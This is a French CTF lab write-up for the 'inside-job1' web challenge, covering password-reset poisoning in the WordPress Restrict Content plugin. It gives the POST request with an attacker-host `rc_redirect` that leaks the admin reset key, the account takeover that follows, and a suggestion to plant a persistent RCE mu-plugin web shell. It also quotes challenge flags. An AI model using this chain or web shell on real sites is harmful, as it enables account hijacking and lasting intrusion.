



# Writeup : inside-job1

Catégorie : web

Date de résolution : 2026-11-15

Technique principale : CVE-2026-9273 Restrict Content `rc_redirect` password-reset poisoning

Outils observés : curl, listener HTTP (:8081), WireGuard `hlb3`

Cible : `http://172.28.26.3` Host `banque.vld` — WP 7.1.4, plugin `restrict-content` 4.0.0 (Kadence Memberships)

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/inside-job1. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Contexte

Brief Morse : portail banque valdoria `banque.vld`. Hint gratuit Q1 : " Inspectez le formulaire de connexion. Le préfixe des champs identifie un plugin connu. "

Formulaire `/espace-client/` : champs `rc_user_login`, `rc_user_pass`, `rc_login_nonce`, `rc_action=login` :  plugin Restrict Content.

## Chaîne d'exploitation (ATO réutilisé ensuite)

1. Enum : WP, thème `vdcbank`, users cachés, email `eve@vdcbank.vld`, compte admin `d.admin`.
2. Lost password : `POST /espace-client/?rc_action=lostpassword` avec `rc_redirect=http://<ATT_IP>:<PORT>/`.
3. Bot interne `172.28.26.2` clique le lien empoisonné :  fuite `key=...&login=d.admin` sur le listener.
4. Reset password via `rc_action=reset-password` + clé capturée :  login front :  cookies `wordpress_logged_in_*` valides sur `/wp-admin/`.

### Pourquoi ça marche

Le plugin accepte un redirect contrôlé par l'attaquant dans le mail de reset ; un bot " Eve " suit les URLs :  vol de la clé one-time.

### Pièges

1. Multi-agents sur le même `d.admin` :  `invalidkey` / password écrasé en boucle.
2. Après ATO : grouper dump/RCE en une requête ; ou déposer un mu-plugin RCE persistant (`zz-shell.php`).
3. Honeypot plus tard : `HLB2026{wp_r3s3t_p01s0n_r4c3_w0n}` sur la page Coffre ≠ flag Q1.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/inside-job1
file notes.md flags.txt 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' notes.md 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `aucun fichier autonome` est reproduit ci-dessous sans modification :

```python
Aucun script autonome n’a été conservé dans le dossier local. Les éléments réellement disponibles sont reproduits dans les sections d’analyse et de preuve.
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

Le flag est conservé dans le fichier local flags.txt ou flag.txt. Aucune validation externe supplémentaire n’est affirmée ici.

Flag obtenu : `HLB2026{restrict-content}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
